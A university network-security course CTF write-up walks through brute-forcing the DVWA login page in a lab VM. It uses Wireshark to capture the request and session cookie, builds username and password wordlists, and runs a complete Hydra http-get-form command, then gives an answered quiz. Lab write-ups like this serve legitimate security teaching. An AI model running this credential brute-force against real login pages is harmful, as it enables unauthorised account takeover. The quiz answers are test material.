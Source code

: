 <p>CNT 4403 <i>Network Security and Firewalls</i></p>
<p>University Of South Florida</p>
<h1>CTF 1: Brute Force Password Attacks</h1>
<b>Tools:</b>
<ul>
    <li><a href="https://www.wireshark.org/download.html">Wireshark</a></li>
    <li><a href="https://github.com/ThurmondGuy/Homework/tree/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/Hydra">Hydra</a></li>
    <li><a href="https://www.youtube.com/watch?v=GmWQ1VIjd2U">DVWA</a> - (Deployed OVA using <a href="https://www.vmware.com/products/workstation-player.html">VMware</a>)
</ul>

<h2>Overview</h2>
<p>In this exercise, you will be introduced to the basic concepts of 
password cracking. To perform this activity, you will need to 
understand how to obtain the IP address of our DVWA host server, and 
then connect to that server. In this document that server will be 
206
identified as the SUT (System Under Test). We will first log into the 
system using the VMware console, as demonstrated below:</p>
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image8.png">
</p>
<p>To log into the system, use the username of “<b>ctf</b>” and password of 
“<b>ctf</b>”. This will present you with the login prompt of “ctf@usf-ctf-server:” (note the image above does not reflect the server’s name, but
the default name). It is from here that you can issue the “ifconfig” 
command. Note that the ctf account is a non-privileged account, so you 
will need to use “sudo” to invoke any system commands.</p>

<p>What we want is "ens33 inet addr". This is our "target server". So our target server here is <b>192.168.131.128</b>.</p>

<h2>DVWA</h2>
<p>We are going to need information for our Hydra attack later on:</p>
<ul>
    <li>target server</li>
    <li>cookie</li>
    <li>failure message</li>
</ul>
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image7.png">
</p>
Login to DVWA, for this page, use the username of <b>"admin"</b>, and the password of <b>"password"</b>.

After logging in, set the Security Level of the web interface to "Low" by navigating to the "DVWA Security" tab on the left-hand panel.
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image2.png">
</p>
Hit submit to confirm changes.
<h2>Wireshark</h2>
<p>Use Wireshark and watch the traffic that is generated on the 
network, you can then filter out unwanted traffic to only give you the 
information you will need to exploit the system. To perform this 
exercise, start your Wireshark tracing for all traffic on the VMnet1 or 
VMnet8 network, or whatever network interface your IP address for 
your DVWA server IP address network is assigned to. Go ahead and start a wireshark capture.</p>

<p>Now go to the "Brute Force" tab on the left-hand panel and enter an invalid combination. In this case we used "Bill"/"Bill".</p>
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image6.png">
</p>
<p>Notice the red highlighted text: "Username and/or passowrd incorrect." This is our <b>failure message</b>. Stop the wireshark capture.</p>

<p>Filter the web results from Wireshark, find the "GET" operation on the URL of <b>/dvwa/vulnerabilities/brute</b>.</p>
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image4.png">
</p>

<p>Analyze the "GET" packet to find the <b>URL</b> and <b>cookie</b>.</p>
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image9.png">
</p>


```
URL: /dvwa/vulnerabilities/brute/?username=bill&password=bil&Login=Login HTTP/1.1
Cookie: security=low; 
PHPSESSID=n232a3gba8kkd47tai36be0o81
```

<p>We now have enough information for our Hydra attack.

<h2>Hydra Attack</h2>

<b>Target Server:</b>

```
192.168.131.128
```

<b>URL:</b>

```
/dvwa/vulnerabilities/brute/?username=bill&password=bil&Login=Login HTTP/1.1
```

<b>Cookie:</b>

```
security=low; PHPSESSID=n232a3gba8kkd47tai36be0o81
```

<b>Failure Message:</b>

```
Username and/or passowrd incorrect.
```

<p>Create a file named <a href="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/Hydra/username.txt">username.txt</a> that contains the following names: alice, bill, bob, ctf, joe, admin, administrator, and root; Each name on a separate single line of the file.</p>

<p>Create a file named <a href="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/Hydra/password.txt">password.txt</a> that contains the following passwords: admin, 123456, qwerty, ctf, notpasswrd, password, p@ssw0rd, 219ctivity, root; Each password on a separate single line of the file.</p>

Both files should be in the same <a href="https://github.com/ThurmondGuy/Homework/tree/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/Hydra">directory</a> as Hydra.

This is the appropriate command for this exercise:

```
hydra -L username.txt -P password.txt 192.168.131.128 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=n232a3gba8kkd47tai36be0o81"
```

If you want to know more about the Hydra syntax, I suggest to check <a href="https://www.freecodecamp.org/news/how-to-use-hydra-pentesting-tutorial/">this</a>.

<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image5.png">
</p>

Using the information we got from Hydra, login with the user <b>"admin"</b> and the password <b>"password"</b>.

The Brute Force page should now show this:

<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image3.png">
</p>

With the Success Message: "Welcome to the password protected area admin".

<h2>Review</h2>
<details>
<summary>1. Which password cracking tools where used in this exercise to determine the password for root?</summary>
<b>Hydra</b>
</details>
<details>
<summary>2. What are the parameters being passed in the GET request, list only the paremeter names in a comma separated list, for example: x, y</summary><b>username, password, Login</b></details>
<details>
<summary>3. Which header tag in the HTTP request packet contains the session ID?</summary><b>cookie</b></details>
<details><summary>4. What is the name of the session ID used by DVWA (just supply the name, not the value)</summary><b>PHPSESSID</b></details>
<details><summary>5. When using Hydra, to supply a file with a list of usernames, yu would use which switch?</summary><b>-L</b></details>
<details><summary>6. When using Hydra, to supply a file with a list of passwords, you would use which switch?</summary><b>-P</b></details>
<details><summary>7. When using Hydra, which protocol module is used in this exercise?</summary><b>http-get-form</b></details>
<details><summary>8. When using Hydra and specifying an HTTP "GET" request, what toke is used to specify the username?</summary><b>^USER^</b></details>
<details><summary>9. When using Hydra and specifying an HTTP "GET" request, what token is used to specify the password?</summary><b>^PASS^</b></details>
<details><summary>10. When using Hydra and specifying an HTTP "GET" request, what switch is used to specify optional HTTP header tags?</summary><b>:H=</b></details>
<details><summary>11. The username for the password cracking attempt using Hydra is?</summary><b>admin</b></details>
<details><summary>12. The password results of the cracking attempt using Hydra is?</summary><b>password</b></details>
